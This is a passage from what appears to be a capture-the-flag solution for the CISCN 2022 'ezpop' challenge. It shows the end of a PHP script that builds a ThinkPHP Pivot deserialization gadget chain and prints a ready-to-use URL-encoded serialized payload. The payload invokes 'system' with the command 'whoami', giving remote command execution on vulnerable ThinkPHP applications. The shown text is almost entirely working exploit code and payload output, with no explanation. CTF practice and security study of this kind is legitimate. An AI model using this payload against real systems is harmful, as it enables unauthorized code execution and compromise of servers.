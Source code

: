 ```bash
        }
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}

namespace {
    echo (urlencode(serialize(new think\model\Pivot(new think\model\Pivot()))));
}

//O%3A17%3A%22think%5Cmodel%5CPivot%22%3A7%3A%7Bs%3A21%3A%22%00think%5CModel%00lazySave%22%3Bb%3A1%3Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A3%3A%22dir%22%3B%7D%7Ds%3A19%3A%22%00think%5CModel%00exists%22%3Bb%3A1%3Bs%3A8%3A%22%00%2A%00table%22%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A7%3A%7Bs%3A21%3A%22%00think%5CModel%00lazySave%22%3Bb%3A1%3Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A3%3A%22dir%22%3B%7D%7Ds%3A19%3A%22%00think%5CModel%00exists%22%3Bb%3A1%3Bs%3A8%3A%22%00%2A%00table%22%3Bs%3A0%3A%22%22%3Bs%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3Bi%3A1%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3B%7D%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7Ds%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3Bi%3A1%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3B%7D%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7D
```

来源题目 \[CISCN 2022 初赛\]ezpop

